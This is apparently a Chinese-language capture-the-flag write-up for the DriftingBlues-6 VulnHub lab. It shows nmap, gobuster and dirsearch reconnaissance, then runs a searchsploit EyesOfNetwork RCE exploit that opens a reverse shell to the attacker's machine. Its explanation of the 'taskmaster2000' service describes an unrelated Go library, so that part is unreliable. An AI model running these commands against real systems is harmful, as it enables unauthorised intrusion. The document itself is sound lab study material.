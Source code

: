 # 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.65`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\1.jpg)

# 信息收集

## 使用nmap扫描端口

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\2.jpg)

- SSH服务，在22端口
- HTTP服务有四个
  - 端口66，由`python2`开启的简易服务
  - 端口80和443，由`apache2`提供的服务
  - 端口8086，扫描出的服务，并未碰到过，`infludb`
- RPCbind服务，端口111
- 未知服务`taskmaster2000`，端口2403
- 数据库服务，3306端口，并且服务类型也扫出

Taskmaster 是一个用于管理 Windows 任务计划的 Go 语言库。它允许用户在本地或远程机器上轻松创建、修改、删除、执行、终止和查看计划任务。与 Windows 自带的任务计划程序 GUI 和 PowerShell cmdlets 相比，Taskmaster 提供了更快的速度和更强大的功能。

## 服务探测

访问66端口，发现是一个HTML页面，并且点击页面功能，都只是在当前页面，也就是这里就是一个HTML页面，无其他东西

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\3.jpg)

访问80端口，发现会直接跳转至443端口，且是一个登录界面

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\4.jpg)

访问8086端口，提示未找到界面，不过这里可能是自定义的`404`界面

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\5.jpg)

## 网站目录爆破

使用`gobuster、ffuf、dirsearch、dirb`等工具

爆破66端口的HTTP服务

```shell
gobuster dir -u http://192.168.1.65:66 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\6.jpg)

爆破80端口，也就是默认的

```shell
dirsearch -u http://192.168.1.65 -e .zip -x 403,404 -t 200
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\6-1.jpg)

爆破8086端口

```shell
gobuster dir -u http://192.168.1.65:8086 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\6-2.jpg)

爆破443端口，也就是`https`服务

```shell
dirsearch -u https://192.168.1.65 -x 403,404 -t 200 --exclude-sizes=196B
#这里的--exclude-sizes=196B 是因为在默认界面就是这个字节，并且没加该参数前，大部分都是跳转到这个默认界面，没有参考价值
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\6-4.jpg)

## 网站指纹识别

使用`whatweb`进行测试`80、443、66、8086`端口

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\6-3.jpg)

# 漏洞寻找

## 访问66端口扫描出的目录

访问并下载`.bash_history`，查看其中的内容

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\7.jpg)

当前目录下，有`flag.txt`，查看，说是`flag 1/1`，结束了?

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\8.jpg)

## 访问443端口目录

首先还是了解这个`eyes of network`

> EyesOfNetwork（EON）是一套开源的、免费的IT监控解决方案。该方案提供业务流程配置工具、在活动队列中发生事件时生成弹出窗口等功能。eonweb是其中的一个Web界面。eonweb 5.3-7版本至5.3-8版本存在SQL注入漏洞，该攻击者可利用该漏洞利用includes/functions.php文件(由login.php调用)中的用户名可用函数



访问`README.md`，发现一个接口版本

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\9.jpg)

使用`searchsploit`查看有无该版本对应的历史漏洞

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\10.jpg)

使用远程代码执行的RCE，使用`locate`定位文件位置，然后复制到当前目录，进行相关操作

这里该文件其实是`python`脚本，可以自己查看，里面也有用法

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\11.jpg)

```shell
python3 exp.py https://192.168.1.65 -ip 192.168.1.16 -port 1234
#这里的-ip是指kali的地址，也就是监听地址，-port是kali监听端口
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\12.jpg)

查看文件

![](D:\stu\vulnhub\DriftingBlues靶场\pic-7\13.jpg)



好吧，这里其实应该和网站访问的差不多

# 总结

1. 这个其实主要考察的是对于网站目录的扫描等操作
2. 考察对于`http`服务版本探测，以及要会寻找历史版本漏洞，有可用`exp`就可以直接使用





























